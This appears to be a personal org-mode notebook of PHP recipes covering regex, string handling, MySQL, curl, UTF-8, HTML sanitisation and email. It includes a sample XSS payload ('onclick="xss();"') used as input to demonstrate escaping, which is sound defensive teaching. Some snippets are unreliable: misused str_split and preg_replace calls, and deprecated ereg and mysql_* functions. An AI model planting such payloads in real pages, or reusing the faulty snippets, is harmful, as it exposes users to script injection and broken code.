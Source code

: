 #+TITLE:  php recipes
#+AUTHOR:  Mohammad Reza Mansouri
#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="css/main.css" />
#+HTML_HEAD: <script src="js/org-info.js"></script>
#+HTML_HEAD: <script src="js/ganalytics.js" async></script>
#+STARTUP: overview

* regular expression
** Finding the nth Occurrence of a Match

#+begin_src php
<?php
$todo = "1. Get Dressed 2. Eat Jelly 3. Squash every week into a day";

preg_match_all("/\d\. ([^\d]+)/", $todo, $matches);

print "The second item on the todo list is: ";
// $matches[1] is an array of each substring captured by ([^\d]+)
print $matches[1][1];

print "The entire todo list is: ";
foreach($matches[1] as $match) {
    print "$match\n";
}
?>
#+end_src

Because the preg_match() function stops after it finds one match, you
need to use preg_match_all() instead if you’re looking for additional
matches. The preg_match_all() function returns the number of full
pattern matches it finds. If it finds no matches, it returns 0. If it
encounters an error, such as a syntax problem in the pattern, it
returns false.

The third argument to preg_match_all() is populated with an array
holding information about the various substrings that the pattern has
matched. The first element holds an array of matches of the complete
pattern. For Example 22-4, this means that $matches[0] holds the parts
of $todo that match /\d\. ([^\d]+)/: 1. Get Dressed, 2. Eat Jelly,
and 3. Squash every week into a day.

Subsequent elements of the $matches array hold arrays of text matched
by each parenthesized subpattern. The pattern in Example 22-4 has just
one subpattern ([^\d]+). So $matches[1] is an array of strings that
match that subpattern: Get Dressed, Eat Jelly, and Squash every week
into a day.

If there were a second subpattern, the substrings that it matched
would be in $matches[2], a third subpattern’s matches would be in
$matches[3], and so on.

Instead of returning an array divided into full matches and then
submatches, preg_match_all() can return an array divided by matches,
with each submatch inside. To trigger this, pass PREG_SET_ORDER in as
the fourth argument. This is particularly useful when you’ve got
multiple captured subpatterns and you want to iterate through the
subpattern groups one group at a time, as shown in Example 22-5.

#+begin_src php
<?php
$todo = "
first=Get Dressed
next=Eat Jelly
last=Squash every week into a day
";

preg_match_all("/([a-zA-Z]+)=(.*)/", $todo, $matches, PREG_SET_ORDER);

foreach ($matches as $match) {
    print "The {$match[1]} action is {$match[2]} \n";
}
?>
#+end_src

** replace n counts of a pattern

#+begin_src php
preg_replace($pattern,$replacement,$string,$limit);
#+end_src

$limit is by the default is -1 which means no limit.
** preg_match for a PHP URI (GET request)
#+begin_src php
<?php

# a php uri pattern match (for a php get request)
# look for anything other than these allowable characters
# A-Z, a-z, 0-9, _, ., -, +, ?, /, =
$pattern = "/[^A-Za-z0-9_\.\-\+\?\/=]/";
$string  = "?q=foo+a_b+a-z.java/foo/bar.cgi";

if (preg_match($pattern, $string))
{
  echo "string had bad characters in it";
}
else
{
  echo "no bad characters";
}

?>
#+end_src

** Regex Matching Patterns
#+begin_src php
 
 
Social Security Number
^(?!000)([0-6]\d{2}|7([0-6]\d|7[012]))([ -]?)(?!00)\d\d\3(?!0000)\d{4}$
 
US phone with or without parentheses
^\([0-9]{3}\)\s?[0-9]{3}(-|\s)?[0-9]{4}$|^[0-9]{3}-?[0-9]{3}-?[0-9]{4}$
 
ISO Date (19th to 21st century only)
^((18|19|20)\d\d)-(0[1-9]|1[012])-(0[1-9]|1[0-9]|2[0-9]|3[01])$
#+end_src

* strings
** defining heredoc document
   
#+begin_src php
print <<< END
It's funny when signs say things like:
   Original "Root" Beer
   "Free" Gift
   Shoes cleaned while "you" wait
or have other misquoted words.
END;
#+end_src

** search for substring in string

#+begin_src php
$a = 'How are you?';
if (strpos($a, 'are') !== false) {
    echo 'true';
}
#+end_src 

using =strstr()=

#+begin_src php
<?php
//string strstr ( string $haystack , mixed $needle [, bool $before_needle = false ] )
$email  = 'name@example.com';
$domain = strstr($email, '@');
echo $domain; // prints @example.com

$user = strstr($email, '@', true); // As of PHP 5.3.0
echo $user; // prints name
?>
#+end_src 

** Accessing Substrings
   
#+begin_src php
<?php

if (strpos($_POST['email'], '@') === false) {
    print 'There was no @ in the e-mail address!';
}

?>
#+end_src

** Extracting Substrings

#+begin_src php
<?php
 $substring = substr($string,$start,$length);
 $username = substr($_GET['username'],0,8);
?>
#+end_src

** substring from beginning of the line except the last char

#+begin_src php
substr("abcd",0,-1);       // abc
#+end_src

** Replacing substrings

#+begin_src php
// Everything from position $start to the end of $old_string
// becomes $new_substring
$new_string = substr_replace($old_string,$new_substring,$start);

// $length characters, starting at position $start, become $new_substring
$new_string = substr_replace($old_string,$new_substring,$start,$length);
#+end_src

** Processing a String One Byte at a Time

#+begin_src php
<?php
$string = "This weekend, I'm going shopping for a pet chicken.";
$vowels = 0;
for ($i = 0, $j = strlen($string); $i < $j; $i++) {
    if (strstr('aeiouAEIOU',$string[$i])) {
        $vowels++;
    }
}
?>
#+end_src

** Reversing a String by Byte

#+begin_src php
<?php
print strrev('This is not a palindrome.');
?>
#+end_src

** Reversing a string by word

#+begin_src php
<?php
$s = "Once upon a time there was a turtle.";
// break the string up into words
$words = explode(' ',$s);
// reverse the array of words
$words = array_reverse($words);
// rebuild the string
$s = implode(' ',$words);
print $s;
?>
#+end_src

#+begin_src php
<?php
$reversed_s = implode(' ',array_reverse(explode(' ',$s)));
?>
#+end_src

** Switching tabs and spaces

#+begin_src php
<?php
$r = mysql_query("SELECT message FROM messages WHERE id = 1") or die();
$ob = mysql_fetch_object($r);
$tabbed = str_replace(' ',"\t",$ob->message);
$spaced = str_replace("\t",' ',$ob->message);

print "With Tabs: <pre>$tabbed</pre>";
print "With Spaces: <pre>$spaced</pre>";
?>
#+end_src

** trimming space
   
Use ltrim(), rtrim(), or trim(). ltrim() removes whitespace from the
beginning of a string, rtrim() from the end of a string, and trim()
from both the beginning and end of a string:

** controlling case
*** capitalizing letters

#+begin_src php
<?php
print ucfirst("how do you do today?");  //capitalized the first word in string
print ucwords("the prince of wales");  //capitalizes the first character of each word in a string
?>
#+end_src

*** whole string case control

The functions strtolower() and strtoupper() work on entire strings,
not just individual characters. All alphabetic characters are changed
to lowercase by strtolower() and strtoupper() changes all alphabetic
characters to uppercase:

#+begin_src php
<?php
print strtolower("I programmed the WOPR and the TRS-80.");
print strtoupper('"since feeling is first" is a poem by e. e. cummings.');
?>
#+end_src

** ordinal value of character
use ~ord("h")~
** character value of integer
use ~chr(ascii)~
** replace multiple

#+begin_src php
str_ireplace(['a', 'e', 'i', 'o', 'u'], '!', $str);
#+end_src

** convert string to array

#+begin_src php
// split a string without delimiter
str_split($str);
// split a string with delimiter
str_split(' ',$str);
explode(' ', $str);
#+end_src
 
** split a string by char

#+begin_src php
preg_split('/,/',$str);   // split by ','
preg_split('//',$str);    // split characters
explode(',', $str);
#+end_src

** split a string to chunks of length n
#+begin_src php
$str="abcdefghijklm";
echo print_r(str_split($str, 3),true);

// result
Array
(
    [0] => abc
    [1] => def
    [2] => ghi
    [3] => jkl
    [4] => m
)

#+end_src

** split string by string

#+begin_src php
//array explode ( string $delimiter , string $string [, int $limit = PHP_INT_MAX ] );

// Example 1
$pizza  = "piece1 piece2 piece3 piece4 piece5 piece6";
$pieces = explode(" ", $pizza);
echo $pieces[0]; // piece1
echo $pieces[1]; // piece2

// Example 2
$data = "foo:*:1023:1000::/home/foo:/bin/sh";
list($user, $pass, $uid, $gid, $gecos, $home, $shell) = explode(":", $data);
echo $user; // foo
echo $pass; // *
#+end_src 

** remove alphabet values from string

#+begin_src php
$res = preg_replace('/^[0-9].,/',$str);
#+end_src

** check if string is empty or null
#+begin_src php 
// Function for basic field validation (present and neither empty nor only white space)
function IsNullOrEmptyString($question){
    return (!isset($question) || trim($question)==='');
}
#+end_src 

** remove all leading zeros from  a string

#+begin_src php 
$str = ltrim($str, '0');
#+end_src

** Check number of characters in a range

#+begin_src php
<?PHP 
 
//check the amount of characters in a string function 
FUNCTION CheckNoChars($strText){ 
//check for between 6 and 12 characters 
IF (EREGI("^.{6,12}$" , $strText)) 
RETURN TRUE; 
ELSE 
RETURN FALSE; 
} 
?> 
 
 
<?PHP 
 
//test the function 
$str1 = "mypasswordistoolong"; 
IF (CheckNoChars($str1)){
 
//if it's okay, display this message 
     ECHO "this has the correct number of characters"; 
 
//if not okay, display this message instead 
}ELSE {
     ECHO "incorrect number of characters"; 
}
?>
#+end_src

** Filter non-alphanumeric characters
#+begin_src php
 <?PHP
 
//Begin filtering variable  $data of non alphanumeric characters
 
$data = PREG_REPLACE("/[^0-9a-zA-Z]/i", '', $data);
 
//Finish filtering of non alphanumeric characters
 
?>
#+end_src

** How to remove non-printable characters from strings
Solution: Allow only ASCII characters

#+begin_src php
$result = preg_replace('/[\x00-\x1F\x80-\xFF]/', '', $string);
#+end_src

Possible solution: Use the 'print' regex
Another possible solution is to use the ‘print’ regular expression shown in this example with preg_replace:

#+begin_src php
$result = preg_replace('/[[:^print:]]/', "", $string);
#+end_src

*More PHP regular expressions*
#+begin_src
[:digit:]      Only the digits 0 to 9
[:alnum:]      Any alphanumeric character 0 to 9 OR A to Z or a to z.
[:alpha:]      Any alpha character A to Z or a to z.
[:blank:]      Space and TAB characters only.
[:xdigit:]     .
[:punct:]      Punctuation symbols . , " ' ? ! ; :
[:print:]      Any printable character.
[:space:]      Any space characters.
[:graph:]      .
[:upper:]      Any alpha character A to Z.
[:lower:]      Any alpha character a to z.
[:cntrl:]      .
#+end_src

As shown in my earlier example, you actually need to use two brackets with these
regex patterns when using preg_replace:

#+begin_src php
$result = preg_replace('/[[:^print:]]/', "", $string);
#+end_src

http://php.net/manual/en/ref.regex.php

** example PHP MySQL script (with a SQL 'SELECT' query)
#+begin_src php
<?php
  $servername = "localhost";
  $username = "d8_user";
  $password = "d8_pass";
  $dbname = "aa_d8";

  # connect to the database
  $conn = new mysqli($servername, $username, $password, $dbname);
  if ($conn->connect_error) {
      die("Connection failed: " . $conn->connect_error);
  }

  # execute a query and output its results
  $sql = "SELECT * FROM node__field_photo";
  $result = $conn->query($sql);
  if ($result->num_rows > 0) {
      // output data of each row
      while($row = $result->fetch_assoc()) {
          echo "bundle: " . $row["bundle"]. ", " . $row["entity_id"]. ", " . $row["field_photo_target_id"]. "\n";
      }
  } else {
      echo "0 results";
  }

  $conn->close();
 
?>
#+end_src

** PHP json_encode array conversion example
*** example #1
#+begin_src php
<?php

#
# do some stuff here ...
#

# send a json reply back to the sencha client
header('Content-type: text/html');
echo json_encode(array(
    "success" => true,
    "msg" => $message,
    "id" => $id
));

?>
#+end_src

*** example #2
#+begin_src php
<?php

header('Content-type: text/html');
echo json_encode(
    array(
        array('symbol' => 'AAPL', 'price' => '525.00'),
        array('symbol' => 'GOOG', 'price' => '600.00'),
        array('symbol' => 'TSLA', 'price' => '220.00')
    )
);
?>
#+end_src

** use PHP curl and curl_setopt with JSON web services
*** A PHP curl GET request
#+begin_src php
<?php

# An HTTP GET request example

$url = 'http://localhost:8080/stocks';
$ch = curl_init($url);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 5);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
$data = curl_exec($ch);
curl_close($ch);
echo $data;
?>
#+end_src

*** A PHP curl POST request, with JSON data

#+begin_src php
<?php

# An HTTP POST request example

# a pass-thru script to call my Play server-side code.
# currently needed in my dev environment because Apache and Play run on
# different ports. (i need to do something like a reverse-proxy from
# Apache to Play.)

# the POST data we receive from Sencha (which is not JSON)
$id = $_POST['id'];
$symbol = $_POST['symbol'];
$companyName = $_POST['companyName'];

# data needs to be POSTed to the Play url as JSON.
# (some code from http://www.lornajane.net/posts/2011/posting-json-data-with-php-curl)
$data = array("id" => "$id", "symbol" => "$symbol", "companyName" => "$companyName");
$data_string = json_encode($data);

$ch = curl_init('http://localhost:8080/stocks/add');
curl_setopt($ch, CURLOPT_CUSTOMREQUEST, "POST");
curl_setopt($ch, CURLOPT_POSTFIELDS, $data_string);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_HTTPHEADER, array(
    'Content-Type: application/json',
    'Content-Length: ' . strlen($data_string))
);
curl_setopt($ch, CURLOPT_TIMEOUT, 5);
curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 5);

//execute post
$result = curl_exec($ch);

//close connection
curl_close($ch);

echo $result;

?>
#+end_src

** PHP5 Email Validation
#+begin_src php
function isValidEmail($email){
 return filter_var(filter_var($email, FILTER_SANITIZE_EMAIL), FILTER_VALIDATE_EMAIL);
}

if(isValidEmail('email@domain.com')){
//valid
} else {
//not valid
}
#+end_src

** reduce multiple consecutive spaces to a single space
A PHP function that reduces multiple consecutive spaces in a string to one
single space, so something like " " is reduced to " ".
#+begin_src php 
function reduceMultipleSpacesToSingleSpace($text) {
  return preg_replace('/\s+/', " ", $text );
}
#+end_src

** strip all non alphanumeric characters from a string
A PHP function that strips a string of all characters other than alphanumeric
characters:

#+begin_src php 
function onlyAlphanumericAndSpaces($text) {
  # allow only alphanumeric
  return ereg_replace("[^A-Za-z0-9 ]", "", $text );
}
#+end_src 

** remove all illegal characters from an email address
#+begin_src php
<?php
$email = "john(.doe)@exa//mple.com";

$email = filter_var($email, FILTER_SANITIZE_EMAIL);
echo $email;
?>
#+end_src

** A PHP last character function
#+begin_src php  
# a php last character function
function last_char($str)
{
  $len = strlen($str);
  return char_at($str, $len-1);
}

function char_at($str, $pos)
{
  return $str{$pos};
}
#+end_src 

** array to CSV string example
#+begin_src php
$csv_string = implode(',', $tags);
#+end_src

** PHP and UTF-8 (/best practice/)
*** intro
*There’s no one-liner. Be careful, detailed, and consistent.*
UTF-8 in PHP sucks. Sorry.

Right now PHP does not support Unicode at a low level. There are ways to ensure
that UTF-8 strings are processed OK, but it’s not easy, and it requires digging
in to almost all levels of the web app, from HTML to SQL to PHP. We’ll aim for a
brief, practical summary.

*** UTF-8 at the PHP level
The basic string operations, like concatenating two strings and assigning
strings to variables, don’t need anything special for UTF-8. However most string
functions, like strpos() and strlen(), do need special consideration. These
functions often have an mb_* counterpart: for example, mb_strpos() and
mb_strlen(). Together, these counterpart functions are called the Multibyte
String Functions. The multibyte string functions are specifically designed to
operate on Unicode strings.

You must use the mb_* functions whenever you operate on a Unicode string. For
example, if you use substr() on a UTF-8 string, there’s a good chance the result
will include some garbled half-characters. The correct function to use would be
the multibyte counterpart, mb_substr().

The hard part is remembering to use the mb_* functions at all times. If you
forget even just once, your Unicode string has a chance of being garbled during
further processing.

Not all string functions have an mb_* counterpart. If there isn’t one for what
you want to do, then you might be out of luck.

Additionally, you should use the mb_internal_encoding() function at the top of
every PHP script you write (or at the top of your global include script), and
the mb_http_output() function right after it if your script is outputting to a
browser. Explicitly defining the encoding of your strings in every script will
save you a lot of headaches down the road.

Finally, many PHP functions that operate on strings have an optional parameter
letting you specify the character encoding. You should always explicitly
indicate UTF-8 when given the option. For example, htmlentities() has an option
for character encoding, and you should always specify UTF-8 if dealing with such
strings.

*** UTF-8 at the OS level
Often you’ll find yourself writing files with contents or filenames encoded in
some flavor of Unicode. PHP is able to run on a variety of operating systems,
including Linux and Windows; but sadly how it handles Unicode filenames differs
on each platform due to OS-level quirks.

Linux and OSX appear to handle UTF-8 filenames fairly well. Windows, however,
doesn’t. If you try to use PHP to write to a file with non-ASCII characters in
the filename in Windows, you may discover that the filename is displayed with
strange or corrupted characters.

There doesn’t seem to be an easy, portable workaround here. In Linux and OSX you
can encode your filenames with UTF-8, but in Windows you have to remember to
encode using ISO-8859-1.

If you don’t want to bother with having your script check if it’s running on
Windows or not, you could always URL encode all of your filenames before writing
them. This effectively works around Unicode quirks by representing Unicode
characters by a subset of ASCII.

*** UTF-8 at the MySQL level
If your PHP script accesses MySQL, there’s a chance your strings could be stored
as non-UTF-8 strings in the database even if you follow all of the precautions
above.

To make sure your strings go from PHP to MySQL as UTF-8, make sure your database
and tables are all set to the utf8mb4 character set and collation, and that you
use the utf8mb4 character set in the PDO connection string. For an example, see
the section on connecting to and querying a MySQL database. This is critically
important.

Note that you must use the utf8mb4 character set for complete UTF-8 support, not
the utf8 character set! See Further Reading for why.

*** UTF-8 at the browser level
Use the mb_http_output() function to ensure that your PHP script outputs UTF-8
strings to your browser. In your HTML, include the charset meta tag in your
page’s <head> tag.

*** example
#+begin_src php
<?php
// Tell PHP that we're using UTF-8 strings until the end of the script
mb_internal_encoding('UTF-8');
 
// Tell PHP that we'll be outputting UTF-8 to the browser
mb_http_output('UTF-8');
 
// Our UTF-8 test string
$string = 'Êl síla erin lû e-govaned vîn.';
 
// Transform the string in some way with a multibyte function
// Note how we cut the string at a non-Ascii character for demonstration purposes
$string = mb_substr($string, 0, 15);
 
// Connect to a database to store the transformed string
// See the PDO example in this document for more information
// Note that we define the character set as utf8mb4 in the PDO connection string
$link = new \PDO(   'mysql:host=your-hostname;dbname=your-db;charset=utf8mb4',
                    'your-username',
                    'your-password',
                    array(
                        \PDO::ATTR_ERRMODE => \PDO::ERRMODE_EXCEPTION,
                        \PDO::ATTR_PERSISTENT => false
                    )
                );
 
// Store our transformed string as UTF-8 in our database
// Your DB and tables are in the utf8mb4 character set and collation, right?
$handle = $link->prepare('insert into ElvishSentences (Id, Body) values (?, ?)');
$handle->bindValue(1, 1, PDO::PARAM_INT);
$handle->bindValue(2, $string);
$handle->execute();
 
// Retrieve the string we just stored to prove it was stored correctly
$handle = $link->prepare('select * from ElvishSentences where Id = ?');
$handle->bindValue(1, 1, PDO::PARAM_INT);
$handle->execute();
 
// Store the result into an object that we'll output later in our HTML
$result = $handle->fetchAll(\PDO::FETCH_OBJ);
?><!doctype html>
<html>
    <head>
        <meta charset="UTF-8" />
        <title>UTF-8 test page</title>
    </head>
    <body>
        <?php
        foreach($result as $row){
            print($row->Body);  // This should correctly output our transformed UTF-8 string to the browser
        }
        ?>
    </body>
</html>
#+end_src 

** Sanitizing HTML input and output (/best practice/)
*** intro
Use the htmlentities() function for simple sanitization and the HTML Purifier
library for complex sanitization.

Tested with HTML Purifier 4.6.0.

When displaying user input in any web application, it’s essential to “sanitize”
it first to remove any potentially dangerous HTML. A malicious user can craft
HTML that, if outputted directly by your web app, can be dangerous to the person
viewing it.

While it may be tempting to use regular expressions to sanitize HTML, do not do
this. HTML is a complex language and it’s virtually guaranteed that any attempt
you make at using regular expressions to sanitize HTML will fail.

You might also find advice suggesting you use the strip_tags() function. While
strip_tags() is technically safe to use, it’s a “dumb” function in the sense
that if the input is invalid HTML (say, is missing an ending tag), then
strip_tags() might remove much more content than you expected. As such it’s not
a great choice either, because non-technical users often use the < and >
characters in communications.

If you read the section on validating email addresses, you might also be
considering using the filter_var() function. However the filter_var() function
has problems with line breaks, and requires non-intuitive configuration to
closely mirror the htmlentities() function. As such it’s not a good choice
either.

*** Sanitization for simple requirements
If your web app only needs to completely escape (and thus render harmless, but
not remove entirely) HTML, use PHP’s built-in htmlentities() function. This
function is much faster than HTML Purifier, because it doesn’t perform any
validation on the HTML—it just escapes everything.

htmlentities() differs from its cousin htmlspecialchars() in that it encodes all
applicable HTML entities, not just a small subset.
#+begin_src php
<?php
// Oh no!  The user has submitted malicious HTML, and we have to display it in our web app!
$evilHtml = '<div onclick="xss();">Mua-ha-ha!  Twiddling my evil mustache...</div>';
 
// Use the ENT_QUOTES flag to make sure both single and double quotes are escaped.
// Use the UTF-8 character encoding if you've stored the text as UTF-8 (as you should have).
// See the UTF-8 section in this document for more details.
$safeHtml = htmlentities($evilHtml, ENT_QUOTES, 'UTF-8'); // $safeHtml is now fully escaped HTML.  You can output $safeHtml to your users without fear!
?>
#+end_src

Sanitization for complex requirements

For many web apps, simply escaping HTML isn’t enough. You probably want to
entirely remove any HTML, or allow a small subset of HTML through. To do this,
use the HTML Purifier library.

HTML Purifier is a well-tested but slow library. That’s why you should use
htmlentities() if your requirements aren’t that complex, because it will be
much, much faster.

HTML Purifier has the advantage over strip_tags() because it validates the HTML
before sanitizing it. That means if the user has inputted invalid HTML, HTML
Purifier has a better chance of preserving the intended meaning of the HTML than
strip_tags() does. It’s also highly customizable, allowing you to whitelist a
subset of HTML to keep in the output.

The downside is that it’s quite slow, it requires some setup that might not be
feasible in a shared hosting environment, and the documentation is often complex
and unclear. The following example is a basic configuration; check the
documentation to read about the more advanced features HTML Purifier offers.
#+begin_src php 
<?php
// Include the HTML Purifier library
require_once('htmlpurifier-4.6.0/HTMLPurifier.auto.php');
 
// Oh no!  The user has submitted malicious HTML, and we have to display it in our web app!
$evilHtml = '<div onclick="xss();">Mua-ha-ha!  Twiddling my evil mustache...</div>';
 
// Set up the HTML Purifier object with the default configuration.
$purifier = new HTMLPurifier(HTMLPurifier_Config::createDefault());
 
$safeHtml = $purifier->purify($evilHtml); // $safeHtml is now sanitized.  You can output $safeHtml to your users without fear!
?>
#+end_src 

*** Gotchas
 - Using htmlentities() with the wrong character encoding can result in
   surprising output. Always make sure that you specify a character encoding
   when calling the function, and that it matches the encoding of the string
   being sanitized. See the UTF-8 section for more details.

 - Always include the ENT_QUOTES and character encoding parameters when using
   htmlentities(). By default, htmlentities() doesn’t encode single quotes. What
   a dumb default!

 - HTML Purifier is extremely slow for complex HTML. Consider setting up a
   caching solution like APC to store the sanitized result for later use.
** Validating email addresses (/best practice/)
Use the filter_var() function.

A common task your web app might need to do is to check if a user has entered a
valid email address. You’ll no doubt find online a dizzying range of complex
regular expressions that all claim to solve this problem, but the easiest way is
to use PHP’s built-in filter_var() function, which can validate email addresses.

#+begin_src php
<?php
filter_var('sgamgee@example.com', FILTER_VALIDATE_EMAIL); // Returns "sgamgee@example.com". This is a valid email address.
filter_var('sauron@mordor', FILTER_VALIDATE_EMAIL); // Returns boolean false! This is *not* a valid email address.
?>
#+end_src

** Sending email (/best practice/)
Use PHPMailer.
Tested with PHPMailer 5.2.7.

PHP provides a mail() function that looks enticingly simple and easy.
Unfortunately, like a lot of things in PHP, its simplicity is deceptive and
using it at face value can lead to serious security problems.

Email is a set of protocols with an even more tortured history than PHP. Suffice
it to say that there are so many gotchas in sending email that just being in the
same room as PHP’s mail() function should give you the shivers.

PHPMailer is a popular and well-aged open-source library that provides an easy
interface for sending mail securely. It takes care of the gotchas for you so you
can concentrate on more important things.

#+begin_src php
<?php
// Include the PHPMailer library
require_once('phpmailer-5.2.7/PHPMailerAutoload.php');
 
// Passing 'true' enables exceptions.  This is optional and defaults to false.
$mailer = new PHPMailer(true);
 
// Send a mail from Bilbo Baggins to Gandalf the Grey
 
// Set up to, from, and the message body.  The body doesn't have to be HTML; check the PHPMailer documentation for details.
$mailer->Sender = 'bbaggins@example.com';
$mailer->AddReplyTo('bbaggins@example.com', 'Bilbo Baggins');
$mailer->SetFrom('bbaggins@example.com', 'Bilbo Baggins');
$mailer->AddAddress('gandalf@example.com');
$mailer->Subject = 'The finest weed in the South Farthing';
$mailer->MsgHTML('<p>You really must try it, Gandalf!</p><p>-Bilbo</p>');
 
// Set up our connection information.
$mailer->IsSMTP();
$mailer->SMTPAuth = true;
$mailer->SMTPSecure = 'ssl';
$mailer->Port = 465;
$mailer->Host = 'my smtp host';
$mailer->Username = 'my smtp username';
$mailer->Password = 'my smtp password';
 
// All done!
$mailer->Send();
?>
#+end_src

** PHP and regex (/best practice/)
Use the PCRE (preg_*) family of functions.

PHP has two different ways of using regular expressions: the PCRE
(Perl-compatible, preg_*) functions and the POSIX (POSIX extended, ereg_*)
functions.

Each family of functions uses a slightly different flavor of regular expression.
Luckily for us, the POSIX functions have been deprecated since PHP 5.3.0.
Because of this, you should never write new code using the POSIX functions.
Always use the PCRE functions, which are the preg_* functions.

 - Remember to use the /u flag when working with regexes, to ensure you’re working in Unicode mode.
define() vs. const

Use define() unless readability, class constants, or micro-optimization are concerns.

Traditionally in PHP you would define constants using the define() function. But
at some point PHP gained the ability to also declare constants with the const
keyword. Which one should you use when defining your constants?

The answer lies in the little differences between the two methods.

 1. define() defines constants at run time, while const defines constants at
    compile time. This gives const a very slight speed edge, but not one worth
    worrying about unless you’re building large-scale software.
 2. define() puts constants in the global scope, although you can include
    namespaces in your constant name. That means you can’t use define() to
    define class constants.
 3. define() lets you use expressions both in the constant name and in the
    constant value, unlike const which allows neither. This makes define() much
    more flexible.
 4. define() can be called within an if() block, while const cannot.

#+begin_src php 
<?php
// Let's see how the two methods treat namespaces
namespace MiddleEarth\Creatures\Dwarves;
const GIMLI_ID = 1;
define('MiddleEarth\Creatures\Elves\LEGOLAS_ID', 2);
 
echo(\MiddleEarth\Creatures\Dwarves\GIMLI_ID);  // 1
echo(\MiddleEarth\Creatures\Elves\LEGOLAS_ID);  // 2; note that we used define(), but the namespace is still recognized
 
// Now let's declare some bit-shifted constants representing ways to enter Mordor.
define('TRANSPORT_METHOD_SNEAKING', 1 << 0); // OK!
const TRANSPORT_METHOD_WALKING = 1 << 1; // Compile error! const can't use expressions as values
 
// Next, conditional constants.
define('HOBBITS_FRODO_ID', 1);
 
if($isGoingToMordor){
    define('TRANSPORT_METHOD', TRANSPORT_METHOD_SNEAKING); // OK!
    const PARTY_LEADER_ID = HOBBITS_FRODO_ID // Compile error: const can't be used in an if block
}
 
// Finally, class constants
class OneRing{
    const MELTING_POINT_CELSIUS = 1000000; // OK!
    define('MELTING_POINT_ELVISH_DEGREES', 200); // Compile error: can't use define() within a class
}
?>
#+end_src 

Because define() is ultimately more flexible, it’s the one you should use to
avoid headaches unless you specifically require class constants. Using const
generally results in more readable code, but at the expense of flexibility.

Whichever one you use, be consistent!
** Auto-loading classes (/best practice/)
Use spl_autoload_register() to register your auto-load function.

PHP provides several ways to auto-load files containing classes that haven’t yet
been loaded. The older way is to use a magic global function called
__autoload(). However you can only have one __autoload() function defined at
once, so if you’re including a library that also uses the __autoload() function,
then you’ll have a conflict.

The correct way to handle this is to name your autoload function something
unique, then register it with the spl_autoload_register() function. This
function allows more than one __autoload() function to be defined, so you won’t
step on any other code’s own __autoload() function.

#+begin_src php 
<?php
// First, define your auto-load function.
function MyAutoload($className){
    include_once($className . '.php');
}
 
// Next, register it with PHP.
spl_autoload_register('MyAutoload');
 
// Try it out!
// Since we haven't included a file defining the MyClass object, our auto-loader will kick in and include MyClass.php.
// For this example, assume the MyClass class is defined in the MyClass.php file.
$var = new MyClass();
?>
#+end_src 

** PHP tags (/best practice/)
*Use <?php ?>.*

There are a few different ways to delimit blocks of PHP: <?php ?>, <?= ?>, <?
?>, and <% %>. While the shorter ones might be more convenient to type, they’re
disabled by default and must be enabled by configuring the PHP server with the
short_open_tag option. Therefore the only method that’s guaranteed to work on
all PHP servers is <?php ?>. If you ever plan on deploying your PHP to a server
whose configuration you can’t control, then you should always use <?php ?>.

Fortunately <?= is available regardless of whether or not short tags are
enabled, so it’s always safe to use that shorthand instead of <?php echo() ?>.

If you’re only coding for yourself and have control over the PHP configuration
you’ll be using, you might find the shorter tags to be more convenient. But
remember that <? ?> might conflict with XML declarations and <% %> is actually
ASP style.

Whatever you choose, make sure you stay consistent!

 - When including a closing ?> tag in a pure PHP file (for example, in a file
   that only contains a class definition), make sure not to leave any trailing
   newlines after it. While the PHP parser safely “eats” a single newline
   character after the closing tag, any other newlines might be outputted to the
   browser and possibly confuse things if you’re outputting any HTTP headers
   later.

 - When writing a web app targeting older versions of IE, make sure not to leave
   a newline between any closing ?> tag and the html <!doctype> tag. Old
   versions of IE will enter quirks mode if they encounter any white space,
   including newlines, before the doctype declaration. This isn’t an issue for
   newer versions of IE and other, more advanced browsers. (Read: every other
   browser besides IE.)

** Connecting to and querying a MySQL database
Use PDO and its prepared statement functionality.

There are many ways to connect to a MySQL database in PHP. PDO (PHP Data
Objects) is the newest and most robust of them. PDO has a consistent interface
across many different types of database, uses an object-oriented approach, and
supports more features offered by newer databases.

You should use PDO’s prepared statement functions to help prevent SQL injection
attacks. Using the bindValue() function ensures that your SQL is safe from
